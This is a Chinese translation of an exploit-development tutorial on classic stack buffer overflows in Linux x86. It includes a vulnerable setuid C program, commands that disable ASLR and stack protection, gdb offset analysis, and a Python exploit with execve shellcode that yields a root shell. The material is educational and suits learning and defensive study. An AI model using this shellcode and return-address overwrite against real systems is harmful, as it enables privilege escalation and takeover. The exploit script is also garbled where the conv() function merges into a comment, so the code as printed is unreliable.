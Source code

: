 #  典型的基于堆栈的缓冲区溢出

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Classic Stack Based Buffer Overflow](https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/)

虚拟机安装：Ubuntu 12.04（x86）

这个帖子是最简单的漏洞开发教程系列，在互联网上你可以找到很多关于它的文章。尽管它丰富和熟悉，我更喜欢自己写博客文章，因为它将作为我未来许多职位的先决条件！

**什么是缓冲区溢出？**

将源缓冲区复制到目标缓冲区可能导致溢出

1、源字符串长度大于目标字符串长度。

2、不进行大小检查。

缓冲区溢出有两种类型：

1、基于堆栈的缓冲区溢出 - 这里的目标缓冲区位于堆栈中

2、基于堆的缓冲区溢出 - 这里的目标缓冲区位于堆中

在这篇文章中，我将只讨论基于堆栈的缓冲区溢出。堆溢出将在Linux（x86）漏洞开发教程系列的 “3级”中讨论！

缓冲区溢出错误导致任意代码执行！

**什么是任意代码执行？**

任意代码执行允许攻击者执行他的代码以获得对受害机器的控制。受害机器的控制是通过多种方式实现的，例如产生根shell，添加新用户，打开网口等...

听起来很有趣，足够的定义让我们看看缓冲区溢出攻击的代码！

漏洞代码

```c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```

编译代码

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

上述漏洞代码的[2]行显示了缓冲区溢出错误。这个bug可能导致任意代码执行，因为源缓冲区内容是用户输入的！

**如何执行任意代码执行？**

使用称为“ 返回地址覆盖 ”的技术实现任意代码执行。这种技术有助于攻击者覆盖位于堆栈中的“返回地址”，并且这种覆盖将导致任意代码执行。

在研究漏洞代码之前，为了更好的理解，让我们反汇编并且绘制出漏洞代码的堆栈布局。

反汇编

```asm
(gdb) disassemble main
Dump of assembler code for function main:
   //Function Prologue
   0x08048414 <+0>:push   %ebp                      //backup caller's ebp
   0x08048415 <+1>:mov    %esp,%ebp                 //set callee's ebp to esp
   0x08048417 <+3>:and    $0xfffffff0,%esp          //栈对齐
   0x0804841a <+6>:sub    $0x110,%esp               //stack space for local variables
   0x08048420 <+12>:mov    0xc(%ebp),%eax            //eax = argv
   0x08048423 <+15>:add    $0x4,%eax                 //eax = &argv[1]
   0x08048426 <+18>:mov    (%eax),%eax               //eax = argv[1]
   0x08048428 <+20>:mov    %eax,0x4(%esp)            //strcpy arg2 
   0x0804842c <+24>:lea    0x10(%esp),%eax           //eax = 'buf' 
   0x08048430 <+28>:mov    %eax,(%esp)               //strcpy arg1
   0x08048433 <+31>:call   0x8048330 <strcpy@plt>    //call strcpy
   0x08048438 <+36>:mov    $0x8048530,%eax           //eax = format str "Input:%s\n"
   0x0804843d <+41>:lea    0x10(%esp),%edx           //edx = buf
   0x08048441 <+45>:mov    %edx,0x4(%esp)            //printf arg2
   0x08048445 <+49>:mov    %eax,(%esp)               //printf arg1
   0x08048448 <+52>:call   0x8048320 <printf@plt>    //call printf
   0x0804844d <+57>:mov    $0x0,%eax                 //return value 0
   //Function Epilogue
   0x08048452 <+62>:leave                            //mov ebp, esp; pop ebp; 
   0x08048453 <+63>:ret                              //return
End of assembler dump.
(gdb)
```

堆栈布局：

![](http://bbs.pediy.com/upload/attach/201704/694899_mx9rnvfv0rwlgaj.png)

因为我们已经知道用户输入的大于256，将溢出目标缓冲区并覆盖堆栈中存储的返回地址。通过发送一系列“A”来测试它。

测试步骤1：是否可以覆盖返回地址？

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

以上输出显示指令指针寄存器（EIP）被“AAAA”覆盖，这样可以确定覆盖返回地址是可能的！

测试步骤2：目的缓冲区的偏移量是多少？

这里让我们找出返回地址相对与目的缓冲区'buf'的偏移量。在反汇编并绘制了main（）的堆栈布局后，现在可以尝试找到偏移位置信息！ 堆栈布局显示返回地址位于距目标缓冲区“buf”的偏移（0x10c）处。 0x10c计算如下：

```
0x10c = 0x100 + 0x8 + 0x4
```

**其中**

```
0x100 is ‘buf’ 大小
0x8 is 对齐空间    //这里有点不太明白为啥需要对齐
0x4 is 调用者的ebp
```

因此，用户输入的 “A” * 268 + “B” * 4，覆盖了’buf‘，对齐空间和调用者的ebp覆盖为”A"并且返回地址变为"BBBB"

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

以上输出显示攻击者可以控制返回地址。 位于堆栈位置（0xbffff1fc）的返回地址被“BBBB”覆盖。 有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

攻击代码：

```py
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       
               
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",numnk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序，给了我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

注意：为了获得这个root shell，我们关闭了许多漏洞利用缓解技术。 对于所有文章中的1级，我已经禁用了这些利用减轻技术，因为第1级的目标是向您介绍漏洞。 当我们进入Linux（x86）利用开发教程系列的“2级”时，真正的乐趣会发生在这里，我将在此讨论绕过这些利用减轻技术！

